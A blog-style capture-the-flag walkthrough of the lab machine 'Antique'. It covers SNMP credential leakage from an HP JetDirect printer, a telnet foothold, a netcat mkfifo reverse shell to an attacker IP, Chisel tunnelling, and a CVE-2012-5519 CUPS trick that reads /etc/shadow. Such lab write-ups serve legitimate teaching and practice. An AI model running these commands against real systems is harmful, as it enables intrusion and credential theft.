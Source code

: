 ```yaml
---
title: Antique
published: true
layout: post
---
```


<br />

---------------
Antique is an easy Linux machine featuring a network printer disclosing credentials through SNMP string which allows logging into telnet service. Foothold can be obtained by exploiting a feature in printer. CUPS administration service running locally. This service can be exploited further to gain root access on the server.

<br />
<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/j4GtGBayHNo?si=1rNCGisJUXNyZgNZ" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.11.107 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn -v
```

![](/assets/Antique/1.png)
<br />
<br />
<br />

There are **2 open ports**:
+ **23/tcp**
+ **161/udp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS -sU 10.10.11.107 -p T:23,U:161 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A
```

![](/assets/Antique/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **23/tcp telnet**
+ **161/udp SNMPv1 server (public)**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS -sU 10.10.11.107 -p T:23,U:161 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn
```

<br />

The scan reports nothing.

<br />

------

<br />
### Foothold

This machine is... weird. I'm used to exploting websites and then connecting via SSH. However this machine has neither of both. We are facing a Telnet server and an SNMP server. Anyway, this machine is not hard, we just have to do our research.

<br />

When trying to connect to **Telnet**, we are **asked for a password** but also we can see a banner that indicates us something about an ***HP JetDirect***:

```bash
telnet 10.10.11.107
```

![](/assets/Antique/3.png)
<br />
<br />
<br />

When trying to connect to **SNMP** using the ***public* community string**, we get this string:

```bash
snmpwalk -c "public" -v1 -t 10 10.10.11.107
```

![](/assets/Antique/4.png)
<br />
<br />
<br />

With this information I was completely lost, so I started to **search in Google** for this printer, the telnet and SNMP services. Until I found this website:

![](/assets/Antique/5.png)
<br />
<br />
<br />

In this website, we can find this section, which explains the way to get the **JetDirect's password**:

![](/assets/Antique/6.png)
<br />
<br />
<br />

Let's try it:

```bash
snmpget -v 1 -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```

![](/assets/Antique/7.png)
<br />
<br />
<br />

Great, let's now **copy the output and translate it from hexademical**, frmo which we can see a long string, however the first readable part is: ***P@ssw0rd@123!!123***:

![](/assets/Antique/8.png)
<br />
<br />
<br />

Let's try this password in Telnet:
<br />
![](/assets/Antique/9.png)
<br />
<br />
<br />

We can see that we have a **command to execute system commands**, so we can send us a **reverse shell**. I tried a few and only the ***nc mkfifo*** one worked:

```bash
exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.10 4444 >/tmp/f
```

![](/assets/Antique/10.png)

![](/assets/Antique/11.png)
<br />
<br />
<br />

Now we only need to grab the **user flag**:
<br />
![](/assets/Antique/12.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation

The privilege escalation of this machine **isn't intended to get command execution as root**, however I will still demonstrate how to get it.

<br />

After a bit of enumeration I discover that the **port 631/tcp** is open, so I'm going to download and use [**Chisel**](https://github.com/jpillora/chisel/releases/tag/v1.10.0) to set up local port forwarding, first we have to execute it on our machine:

```bash
chisel server --port 8080 --reverse
```

![](/assets/Antique/13.png)
<br />
<br />
<br />

Now we have to execute it on the pwned machine:

```bash
./chisel client 10.10.16.10:8080 1234:127.0.0.1:631 > /dev/null 2>&1 
```

![](/assets/Antique/14.png)
<br />
<br />
<br />

We can now connect to it and inspect it to get a **version number**:

![](/assets/Antique/15.png)
<br />
<br />
<br />

This version number leads us to **CVE-2012-5519**, which leads to this [GitHub project](https://github.com/p1ckzi/CVE-2012-5519/tree/main):

![](/assets/Antique/16.png)
<br />
<br />
<br />

Let's try what it says in the pwned machine:

```bash
cupsctl ErrorLog=/etc/shadow
curl 127.0.0.1:631/admin/log/error_log
```

![](/assets/Antique/17.png)
<br />
<br />
<br />

It worked perfectly, however **rockyou.txt doesn't contain the password**, we could get the root flag this way, but we want root command execution, so let's go for it.

<br />

Resuming our enumeration, we can see that ***pkexec*** has **SUID privileges**:

```bash
find / -perm -4000 -ls 2>/dev/null
```

![](/assets/Antique/18.png)
<br />
<br />
<br />

The only thing we have to do is transfer the **PwnKit** and run it:

![](/assets/Antique/19.png)
<br />
<br />
<br />
